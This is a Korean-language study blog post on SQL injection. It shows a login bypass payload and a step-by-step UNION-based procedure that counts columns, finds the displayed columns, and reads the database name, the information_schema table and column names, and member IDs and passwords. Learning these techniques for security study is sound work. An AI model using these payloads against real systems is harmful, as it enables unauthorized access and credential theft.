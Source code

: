 ```yaml
---
title: "Week 6 - Union Injection"
date: 2025-05-17
categories: [study]
layout: single
author_profile: true
sidebar:
  nav: "main"
read_time: true
toc: true
toc_label: "On this page"
toc_sticky: true
---
```


# 1. SQL Injection: 인증 우회 및 데이터 추출

SQL Injection은 웹 애플리케이션에서 사용자 입력값이 안전하게 처리되지 않을 때 발생하는 취약점입니다. 이 포스트에서는 인증 우회를 포함한 SQL Injection을 통해 **데이터를 추출하는 절차**를 정리합니다.

## 1.1 SQL Injection의 목적

보통 SQL Injection은 다음 두 가지 목적으로 활용됩니다:

- **인증 우회**: 로그인 등의 인증 시스템을 무력화
- **데이터 추출**: 데이터베이스에 저장된 민감한 정보를 외부로 노출

---

# 2. 인증 우회 예시

로그인 로직이 다음과 같이 구현되어 있다고 가정합니다:

```sql
SELECT * FROM user WHERE id = 'doldol' AND pass = '';
```
이때 다음과 같은 입력을 하면 항상 참이 되어 인증이 우회됩니다:
```
' OR '1'='1
```
최종 쿼리:
```
SELECT * FROM user WHERE id = 'doldol' AND pass = '' OR '1'='1';
```
# 3. 데이터 추출이 가능한 조건
데이터를 추출하기 위해선 다음 두 조건 중 하나를 만족해야 합니다:

조건	예시
웹페이지에 데이터가 출력된다	게시판, 검색결과 등
웹페이지에 데이터가 출력되지 않는다	로그인, 아이디 중복체크 등

이번 포스트에선 화면에 데이터가 출력되는 경우를 중심으로 설명합니다.

# 4. UNION을 이용한 SQL Injection
UNION 키워드를 이용하면 두 개 이상의 SELECT 결과를 합쳐서 출력할 수 있습니다.

예시:
```
SELECT pass FROM member UNION SELECT id FROM member;
```
또는:
```
SELECT id, pass FROM member UNION SELECT 'normaltic', 'test';
```
❗ 주의: UNION을 사용할 때는 앞뒤 SELECT문의 컬럼 개수가 같아야 합니다.

# 5. SQL Injection 단계별 분석

# 5.1 1단계. Injection 포인트 확인
사용자 입력값이 SQL 쿼리에 반영되고 있는지 확인

페이지 출력 결과를 통해 추측

# 5.1 2단계. 컬럼 개수 찾기

```
' ORDER BY 1 #
' ORDER BY 2 #
' ORDER BY 3 #

```
오류가 발생하지 않는 최대 인덱스를 통해 컬럼 수 추정 (예: 4개)

# 5.1 3단계. 출력 컬럼 위치 찾기

```
' UNION SELECT 1,2,3,4 #
```
어느 숫자가 실제 웹페이지에 출력되는지 확인

출력되는 위치에 민감 정보 삽입 가능

4단계. 현재 DB 이름 확인

```
' UNION SELECT 1, database(), 3, 4 #

```
5단계. 테이블 이름 확인

```
' UNION SELECT 1, table_name, 3, 4 FROM information_schema.tables WHERE table_schema = 'DB이름' #

```
6단계. 컬럼 이름 확인

```
' UNION SELECT 1, column_name, 3, 4 FROM information_schema.columns WHERE table_name = '테이블이름' #

```
7단계. 데이터 추출

```
' UNION SELECT 1, id, pass, 4 FROM member #

```
